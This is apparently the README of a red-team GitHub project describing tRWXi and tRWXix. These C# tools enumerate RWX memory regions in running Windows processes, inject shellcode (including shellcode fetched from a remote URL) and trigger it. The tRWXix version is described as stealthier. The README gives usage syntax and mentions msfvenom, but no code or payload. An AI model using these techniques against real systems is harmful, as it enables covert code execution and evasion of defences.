






# tRWXi

trovent RWX injector

### Description
We are all familiar with the concept of process injection through the RWX memory region.\
The **tRWXi.exe** tool is a simple implementation of this in C#.

For a more stealthy mode, see the implementation of the **tRWXix.exe** tool described below. 

### Usage
```
Usage:
        .\tRWXi.exe /enumerate                                                              --> only enumerate
        .\tRWXi.exe /inject  /pid=<pid> /address=<hex address> /url=<remote shell code>     --> inject a shellcode from remote source into the RWX region 
        .\tRWXi.exe /inject  /pid=<pid> /address=<hex address> /data=<hex code>             --> inject a shellcode as a parameter into the RWX region
        .\tRWXi.exe /read    /pid=<pid> /address=<hex address> /size=<size>                 --> read a content of memory address
        .\tRWXi.exe /trigger /pid=<pid> /address=<hex address>                              --> trigger code execution from a memory address
```

### Example
- Generate a shellcode in a numeric format (msfvenom -f num):

- Enumerate the RWX memory regions in all processes that the current user can access:

- Inject a shellcode into the RWX region (address:0x1CD1F910000) of the powershell process (PID:6772) and trigger it:


# tRWXix

tRWXi functionality w/ NtApiDotNet library

### Description
Same functionality as of **tRWXi**.\
Pure [**NtApiDotNet**](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/tree/main/NtApiDotNet) implementation for less visibility.\
For PS scripting: use [**NtObjectManager**](https://www.powershellgallery.com/packages/NtObjectManager/2.0.1) module, which utilizes NtApiDotNet to expose NT object manager.

### Usage
```
Usage:
        .\tRWXi.exe /enumerate                                                              --> only enumerate
        .\tRWXi.exe /inject  /pid=<pid> /address=<hex address> /url=<remote shell code>     --> inject a shellcode from remote source into the RWX region 
        .\tRWXi.exe /inject  /pid=<pid> /address=<hex address> /data=<hex code>             --> inject a shellcode as a parameter into the RWX region
        .\tRWXi.exe /read    /pid=<pid> /address=<hex address> /size=<size>                 --> read a content of memory address
        .\tRWXi.exe /trigger /pid=<pid> /address=<hex address>                              --> trigger code execution from a memory address
```

### Example
- Inject the shellcode in a process from a remote web server and trigger its execution:

- Read the modified address:

- Trigger the memory region w/ a shellcode inside it

